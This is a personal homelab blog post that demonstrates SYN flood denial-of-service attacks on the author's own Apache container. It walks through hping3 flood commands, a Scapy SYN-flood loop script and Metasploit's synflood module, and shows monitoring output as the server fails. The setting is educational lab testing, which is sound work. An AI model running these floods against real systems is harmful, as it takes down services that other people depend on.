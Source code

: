 ```yaml
---
layout: post
title: Week 10 - DDoS In Practice
tags: [year-of-hacking, python]
---
```

This week, I'm going to take a look at some variants of DDoS attacks, particularly kinds that can be executed using out-of-the-box tools and basic scripting.

To me, the concept **D**enial **o**f **S**ervice implies exploiting some kind of vulnerability to cause a crash or something similar that causes a service to stop functioning. A **D**istributed **D**enial **o**f **S**ervice implies overloading an application by sheer traffic quantity.
# Setup
On a machine in my homelab, I set up an Apache web server on port 8080 using docker with a cap of 512 Megabytes of memory using the command:
```bash
docker run --name apache --memory="512m" -p 8080:80 httpd
```

When curled, the Apache server returns this simple HTML.
```
jakemull@optiplex-9020-1:~/ddos$ curl localhost:8080
<html><body><h1>It works!</h1></body></html>
```

In a different tmux pane, I will run this python script that will alert me when the server is no longer responding:
```python
import requests
import time
from datetime import datetime
  
IP_ADDR = "192.168.5.140"
PORT = "8080"
BASE_URL = f"http://{IP_ADDR}:{PORT}/index.html"
  
TYPICAL_RESPONSE = "<html><body><h1>It works!</h1></body></html>"
  
start_time = datetime.now()
  
while True:
    try:
        response_text = requests.get(BASE_URL, timeout=1).text.strip()
    except requests.exceptions.ConnectionError:
        print(f"{IP_ADDR} is NOT working: {datetime.now() - start_time} - Reason: ConnectionError")
        time.sleep(1)
        continue
    except requests.exceptions.Timeout:
        print(f"{IP_ADDR} is NOT working: {datetime.now() - start_time} - Reason: Timeout")
        time.sleep(1)
        continue
    if response_text != TYPICAL_RESPONSE:
        print(f"{IP_ADDR} is not delivering correct content: {datetime.now() - start_time}")
    print(f"{IP_ADDR} is working: {datetime.now() - start_time}", end="\r")
    time.sleep(1)
```

One of the most simple methods for doing a DDoS attack is called a SYN Flood. In a typical TCP connection, communication is initiated when:
- Host A sends a TCP segment with the SYN flag activated to Host B.
- Host B responds with a TCP segment with both the SYN/ACK flags activated to Host A
- Host A responds with a TCP segment with the ACK flag activated to Host B.

This is called the 3-way handshake. In order to maintain the state of a connection, both hosts need to allocate some memory. During the handshake, while Host B is waiting for the segment with the ACK flag from Host A in step 3, Host B has allocated a set amount of memory that it will hold for a time until it decides to let it go. This can be exploited by an attacker to make a host allocate too much memory, eventually causing a crash. This is done by sending tens of thousands of SYN segments. Say it takes 84 bytes to keep the state of a TCP connection, each connection state is held for 10 seconds and an attacker can send 10,000 SYN segments, then it will force the victim to allocate 8.4 MB of RAM after 10 seconds. If an attacker can send 10 million segments a second, it will force the machine to allocate 8.4 GB, enough to cause significant lag, if not crash a system entirely.

# hping3
`hping3` is a command-line tool that allows a user to send arbitrary packets to a host. It has a lot of really useful tools for legitimate network engineer purposes, like the `-z` flag that allows you to increment/decrement the TTL of the packets. We're gonna use the `--fast`, `--faster`, and `--flood` flags.

Using the `--fast` flag is not enough to cause a DDoS, after running for 5 minutes, there's only one error:

```bash
{23:31}~/ddos ➭ sudo hping3 -S --fast 192.168.5.140 -p 8080
```

```bash
{23:26}~/ddos ➭ python3 alert.py
192.168.5.140 is NOT working: 0:00:17.168187 - Reason: ConnectionError
192.168.5.140 is working: 0:04:41.516566
```

Here's the results with the `--faster` flag:
```bash
{23:31}~/ddos ➭ sudo hping3 -S --faster 192.168.5.140 -p 8080
```

```bash
{23:32}~/ddos ➭ python3 alert.py
192.168.5.140 is NOT working: 0:00:25.130376 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:32.890300 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:38.131361 - Reason: Timeout
192.168.5.140 is NOT working: 0:00:42.402327 - Reason: Timeout
192.168.5.140 is NOT working: 0:00:49.479263 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:56.347507 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:01:00.612899 - Reason: Timeout
192.168.5.140 is NOT working: 0:01:02.748265 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:01:07.172784 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:01:09.200692 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:01:15.700279 - Reason: ConnectionError
```

And here's the results with the `--flood` flag, which nearly crashed my computer and made the Wendigoon video I was watching on the other monitor become nearly incomprehensible.
```bash
{23:34}~/ddos ➭ sudo hping3 -S --flood 192.168.5.140 -p 8080
```

```bash
{23:35}~/ddos ➭ python3 alert.py
192.168.5.140 is NOT working: 0:00:03.136107 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:05.146903 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:07.159407 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:09.229592 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:11.359851 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:13.387867 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:15.396786 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:17.727767 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:19.734578 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:21.898394 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:23.938181 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:26.016161 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:28.019673 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:30.051269 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:32.268846 - Reason: ConnectionError
192.168.5.140 is NOT working: 0:00:36.057949 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:38.252743 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:40.258710 - Reason: ConnectionError        192.168.5.140 is NOT working: 0:00:42.261723 - Reason: ConnectionError    
```

You can notice that as expected, the higher rates of malicious packets crash the target earlier.

Wireshark with the filter `tcp.flags.syn == 1 and tcp.dstport == 8080` shows 234,017 segments in 60 seconds.

# Scapy
Scapy is a very powerful tool that allows a programmer to send arbitrary packets, giving the user control of basically every field. We can use this simple script:
```python
from scapy.all import *

target_addr = '192.168.5.140'
target_port = 8080

p=IP(dst=target_addr)/TCP(flags="S",  sport=RandShort(),  dport=target_port)
while True:
	send(p, verbose=0)
```
To send packets to port 8080 basically as fast as a single thread can create them. I would like to learn more about multithreading/multiprocessing in the future, and coding up an attack like this would be an excellent application of that technique, so I'll put off improving this attack for a future post.

Wireshark shows that this script is able to generate about 750 SYN segments over 60 seconds.

# Metasploit packages
Searching through the current Metasploit packages with the keyword `dos` reveals a subset of packages under the `auxiliary/dos` path, which contains 119 premade packages. The vast majority of them are platform or software specific, including some alarming ones like `auxiliary/dos/apple_ios/webkit_backdrop_filter_blur` with the description `iOS Safari Denial of Service with CSS` from 2018, and one called `auxiliary/dos/http/metasploit_httphandler_dos` that as far as I can tell, DoS's Metasploit itself.

Metasploit comes with a package called `dos/tcp/synflood` that executes a SYN flood attack. I would typically include the output of the `alert.py` script, but as far as I can tell, running it the first time completely bricked the test machine in my home lab. However, using Wireshark reveals that over 60 seconds, it generates something like 82k packets.

# Finishing up
I'm surprised that the Metasploit package wasn't the most effective in terms of packets per second. Perhaps looking into updating the package would be an interesting future blog post. SYN floods are just about the easiest DoS attack to execute, so in practice, any modern firewall would catch them. I would like the chance to test this again once I acquire a nicer firewall for the home lab.

# Music from this week
[Toxicity](https://open.spotify.com/album/6jWde94ln40epKIQCd8XUh?si=3jG7RSh1SIWCTHIRroR1aA) by System of a Down

[Rumours](https://open.spotify.com/album/0BwWUstDMUbgq2NYONRqlu?si=AJvaEJmwRf2xTDKpEUI-AA) by Fleetwood Mac
